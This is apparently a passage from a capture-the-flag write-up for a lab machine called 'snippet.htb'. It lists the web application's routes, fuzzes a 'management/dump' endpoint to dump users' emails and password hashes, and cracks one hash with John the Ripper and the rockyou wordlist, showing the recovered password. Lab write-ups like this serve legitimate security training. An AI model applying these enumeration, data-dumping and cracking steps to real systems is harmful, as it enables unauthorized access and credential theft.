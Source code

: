 ```bash
```

- Routes:

```json
      "uri": "_ignition/health-check",
      "uri": "_ignition/execute-solution",
      "uri": "_ignition/share-report",
      "uri": "_ignition/scripts/{script}",
      "uri": "_ignition/styles/{style}",
      "uri": "dashboard",
      "uri": "users",
      "uri": "snippets",
      "uri": "snippets/{id}",
      "uri": "snippets/update/{id}",
      "uri": "snippets/update/{id}",
      "uri": "snippets/delete/{id}",
      "uri": "new",
      "uri": "management/validate",
      "uri": "management/dump",
      "uri": "register",
      "uri": "login",
      "uri": "forgot-password",
      "uri": "forgot-password",
      "uri": "reset-password/{token}",
      "uri": "reset-password",
      "uri": "verify-email",
      "uri": "verify-email/{id}/{hash}",
      "uri": "email/verification-notification",
      "uri": "confirm-password",
      "uri": "logout",
```

- `management/dump` looks interesting, tried posting some random JSON data but got `Missing arguments` error
- Wrote `fuzzDump.py` script to fuzz this endpoint and found `download` key

```bash
python fuzzDump.py
...

Trying: download
download is a valid key!
```

- For values I found `users` and `profiles` using `wfuzz`
- Dumped all users' data, including emails and passwords, cracked a password using `john the ripper`

```bash
john --format=Raw-SHA256 crackThis.txt --wordlist=/usr/share/wordlists/rockyou.txt 

password123      (letha@snippet.htb)
```
